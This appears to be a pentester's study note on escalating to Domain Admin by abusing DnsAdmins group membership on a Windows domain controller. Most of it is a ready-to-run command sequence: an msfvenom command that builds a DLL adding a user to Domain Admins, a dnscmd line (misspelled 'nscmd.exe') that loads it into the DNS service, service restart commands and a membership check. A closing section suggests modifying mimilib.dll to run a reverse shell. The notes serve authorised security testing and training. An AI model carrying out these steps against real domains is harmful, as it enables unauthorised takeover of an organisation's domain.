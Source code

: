 ### Levering DnsAdmins Access
#### Generate Malicious DLL
We can generate malicious DLLs with msfvenom to add a user to the domain admins group
```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

*We need to then start a local http server and transfer the file*
***Only Members of DNS admins are permitted to add dlls to dnscmd.exe***
```powershell-session
Get-ADGroupMember -Identity DnsAdmins
```
```cmd-session
nscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

*Membership in DNS admins doesn't allow*
#### We first need to find user sid
```cmd-session
wmic useraccount where name="netadm" get sid
```
Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.
```cmd-session
sc.exe sdshow DNS
```
#### Restarting the DNS
```
sc stop dns
```
```
sc start dns
```
#### Confirming if it worked
```cmd-session
net group "Domain Admins" /dom
```
***Make sure to Sign Out and Sign In!!!***

#### Cleanup
Making configuration changes and stopping/starting the dns on a domain controller is a very destructive action. We need to run this by our client before proceeding. We will need to revert changes if we get goahead

### Using Mimilib.dll
e could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.
